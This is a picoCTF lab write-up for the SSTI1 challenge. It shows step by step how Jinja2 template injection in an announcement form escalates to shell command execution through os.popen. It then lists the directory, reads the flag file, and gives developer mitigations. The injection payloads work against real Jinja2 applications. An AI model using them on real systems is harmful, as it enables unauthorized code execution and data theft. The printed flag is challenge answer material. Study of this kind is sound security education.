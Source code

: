 >> picoCTF — SSTI1 (Server-Side Template Injection) Writeup

**Challenge:** SSTI1 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Easy

---

## Description
> I made a cool website where you can announce whatever you want! Try it out!  
> Additional details will be available after launching your challenge instance.

The application provides a simple announcement form (an input named `content`) that reflects the submitted text back to the page. I interacted with the site through the web UI (entered payloads into the form and submitted) to confirm SSTI and to escalate to command execution.

> **Warning:** The techniques below are for CTF/educational purposes only. Do not use them on systems without explicit authorization.

---

## Summary
By submitting specially crafted template expressions in the announcement form, the server evaluated Jinja2/Python expressions. Starting from a basic arithmetic test, I used introspection to access Python globals and `os.popen`, enumerated the application directory, and read the `flag` file. All interaction was done using the website form (no `curl`).

---

## Tools
- Web browser (to open the challenge page and submit the announcement form)  
- Optional: a text editor to prepare payloads before copying into the form

---

## Steps — Browser interaction (what I did)

### 1. Open the challenge page
I loaded the challenge instance in my browser and located the announcement form:

![Step 1](images/1.png)

```html
<form action="/" method="POST">
  What do you want to announce: <input name="content" id="announce">
  <button type="submit"> Ok </button>
</form>

```
![Step 2](images/2.png)

+ The form posts content to / and reflects the announcement back to the page.

### 2. Confirm SSTI with a simple arithmetic test

+ I entered the payload into the input field:

```bash
{{7*7}}
```
![Step 3](images/3.png)

+ Then I submitted the form. The page returned and showed:
```bash
49
```

![Step 4](images/4.png)

+ This confirmed the server is evaluating template expressions (SSTI).

### 3. Escalate to command execution via Python builtins

+ To import modules and run shell commands, I used Python introspection through the request object available in the template context. I entered:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
![Step 5](images/5.png)

+ After submitting the form, the page reflected:

```bash
uid=0(root) gid=0(root) groups=0(root)
```

![Step 6](images/6.png)

+ This shows the process is running as root, and that os.popen() is usable to execute shell commands.


### 4. Enumerate files in the working directory

+ Next, I listed files by submitting:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
![Step 7](images/7.png)

+ The page returned:

```bash
__pycache__
app.py
flag
requirements.txt
```

![Step 8](images/8.png)

+ This confirmed a flag file exists in the application directory.


### 5. Read the flag file

Finally, I retrieved the flag by submitting:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

![Step 9](images/9.png)

+ The page returned the flag:
```bash
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
![Step 10](images/10.png)

## Final Flag:
```bash
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
---
## Analysis & Notes

+ The content field was rendered inside a server-side template and evaluated as a Jinja2/Python expression — classic SSTI.

+ Using request.application.__globals__.__builtins__.__import__('os') allowed importing os from within the template sandbox (when direct import is unavailable). From there os.popen() executed shell commands.

+ The server process was running as root, which made reading local files trivial. In production systems, running app processes as root is insecure.

+ Important: all actions above were performed by typing payloads into the web form and submitting — no CLI tooling was required.
---
## Mitigations (for developers)

+ To prevent SSTI and related RCE risks:

+ Do not render raw user input inside templates. Escape user-supplied content or use safe display functions.

+ Use template engine sandboxing (Jinja2 sandbox, strict environments) and avoid exposing request, application, or __builtins__ to templates.

+ Run application processes with least privilege (do not run as root).

+ Validate and sanitize inputs; treat inputs strictly as data.

+ Apply defense-in-depth: input validation, output encoding, template auto-escaping, and minimal runtime privileges.

